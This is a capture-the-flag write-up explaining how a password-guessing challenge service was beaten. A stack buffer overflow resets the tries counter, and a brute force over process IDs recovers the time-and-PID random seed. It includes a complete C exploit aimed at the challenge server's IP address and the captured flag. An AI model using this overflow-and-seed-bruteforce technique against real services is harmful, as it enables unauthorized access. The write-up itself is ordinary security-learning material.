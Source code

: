 
Hello,

This writeup will be quick and dirty. The idea behind the challenge is about guessing a random generated password to win the game and get a shell. You lose the game after 3 bad tries.

I spent much time reversing the binary, to figure out how the password is generated, because this is the first time I deal with a  _Position Independent Executable._

Well, to solve the task all what we need is to guess the value used to seed the random number generator. Like this we can determine the generated password.

The seed is calculated based on current time stamp and current process id. We don't know the pid. We have to bruteforce it. But we have only 3 tries !. Easy ! just overflow the "tries" variable buffer in stack to get infinite tries. That's all !

Here is the exploit. Don't ask me why I wrote it in C !

<!--more-->

```c
#include <time.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>
#include <string.h>
#include <errno.h>
#include <arpa/inet.h>

void rnds(char * s, unsigned l, unsigned int ts, unsigned int pid) {
srand(ts + pid);
int i;
for (i = 0; i < l; ++i) {
s[i] = rand() % 94 + 33;
}
s[i] = '\n';
s[i + 1] = '\0';
}

int main(void) {
int sockfd = 0, n = 0;
char buf[1024];
struct sockaddr_in serv_addr;

memset(buf, '\0', sizeof(buf));
if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
printf("\n Error : Could not create socket \n");
return 1;
}
memset( & serv_addr, '0', sizeof(serv_addr));

serv_addr.sin_family = AF_INET;
serv_addr.sin_port = htons(9002);

if (inet_pton(AF_INET, "91.231.84.36", & serv_addr.sin_addr) <= 0) {
printf("\n inet_pton error occured\n");
return 1;
}

if (connect(sockfd, (struct sockaddr * ) & serv_addr, sizeof(serv_addr)) < 0) {
printf("\n Error : Connect Failed \n");
return 1;
}

//Receive a reply from the server
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;

}

puts(buf);
char * overflow_tries = "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\n";

if (send(sockfd, overflow_tries, strlen(overflow_tries), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

int pid;

unsigned int ts = time(0);
//unsigned int pid = getpid();

for (pid = 32000; pid < 40000; pid++) {

char guess[6];

rnds(guess, 4, ts, pid);
printf("[+] Pid %d", pid);
printf("[+] Trying %s", guess);

memset(buf, '\0', sizeof(buf));
if (recv(sockfd, buf, 1024, 0) < 0) {
printf("\n Error : recv Failed \n");
return 1;
}

if (send(sockfd, guess, strlen(guess), 0) < 0) {
printf("\n Error : send Failed \n");
return 1;
}

puts(buf);

}

return 0;
}

```
After few seconds I got the flag. **h4ck1t{S0M3tiM35_n33D_b2UtEf02c3}**
